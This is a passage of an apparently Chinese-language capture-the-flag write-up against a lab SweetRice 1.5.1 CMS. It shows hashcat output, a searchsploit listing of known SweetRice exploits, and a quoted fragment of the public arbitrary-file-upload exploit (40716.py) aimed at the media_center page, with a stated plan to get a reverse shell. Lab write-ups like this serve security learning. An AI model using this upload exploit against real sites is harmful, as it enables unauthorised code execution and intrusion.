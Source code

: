 ```!=
Rejected.........: 0/33792 (0.00%)
Restore.Point....: 32768/14344385 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: dyesebel -> redlips

Started: Thu Oct 23 12:23:27 2025
Stopped: Thu Oct 23 12:23:29 2025

```

### sweetrice 1.5.1
登入成功  
發現是 sweetrice 1.5.1 版 XD  
![image](https://hackmd.io/_uploads/SJWgk4DRgg.png)

### searchsploit

發現有上傳檔案的漏洞  
嘗試反射 shell  
```!=
└─$ searchsploit sweetrice 1.5.1
------------------------------------------ ---------------------------------
 Exploit Title                            |  Path
------------------------------------------ ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload   | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure       | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forg | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forg | php/webapps/40700.html
------------------------------------------ ---------------------------------
Shellcodes: No Results
```

發現新指令  
透過這個看一下POC  
```!=
searchsploit -x php/webapps/40716.py 
```

發現這上傳 media_center 
```!=
 uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass
```

果然有此頁面
```!=
http://10.10.96.37/content/as/?type=media_center
```
